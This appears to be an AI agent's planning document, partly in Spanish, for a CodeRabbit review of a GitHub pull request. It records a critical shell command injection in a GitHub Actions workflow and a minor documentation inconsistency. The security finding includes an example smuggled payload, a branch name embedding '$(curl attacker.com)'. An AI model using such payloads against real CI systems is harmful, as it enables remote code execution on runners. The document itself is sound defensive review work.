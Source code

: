 # CodeRabbit Review #3310877004 - Planning Document

**Review URL:** https://github.com/Eibon7/roastr-ai/pull/478#pullrequestreview-3310877004
**PR:** #478 - Phase 12: CI/CD Integration & Auto-Issue Workflow
**Date:** October 7, 2025
**Analyst:** Orchestrator Agent

---

## 1. Análisis de Comentarios

### Por Severidad

#### 🔴 Critical (1 issue - SECURITY)
1. **Shell Command Injection via Branch Names** (`.github/workflows/gdd-repair.yml:112-117`)
   - **Issue:** Interpolating `${{ github.head_ref || github.ref_name }}` into shell allows command substitution
   - **Attack Vector:** Branch name like `feature/$(curl attacker.com)` executes during shell evaluation
   - **Impact:** Remote Code Execution (RCE) in GitHub Actions runner
   - **Risk:** HIGH - Allows arbitrary code execution via malicious branch names
   - **CVE Class:** CWE-78 (OS Command Injection)

#### 🟡 Minor (1 issue - DOCUMENTATION)
2. **Evidence file inconsistent with narrative** (`docs/test-evidence/review-3310711738/artifact-upload-fix.txt:1-13`)
   - **Issue:** Code snippet shows "Fail if errors occurred" step, but narrative says it was removed
   - **Impact:** Documentation inaccuracy, confusion for reviewers
   - **Type:** Documentation consistency

#### ✅ Major: 0
#### 📌 Nit: 0

**Total Issues:** 2 (1 Critical Security, 1 Minor Documentation)

### Por Categoría

- **Security:** 1 (Critical - Command Injection)
- **Bugs:** 0
- **Architecture:** 0
- **Performance:** 0
- **Style:** 0
- **Tests:** 0
- **Documentation:** 1 (Minor - Evidence inconsistency)

---

## 2. Diseño GDD

### Nodos Afectados
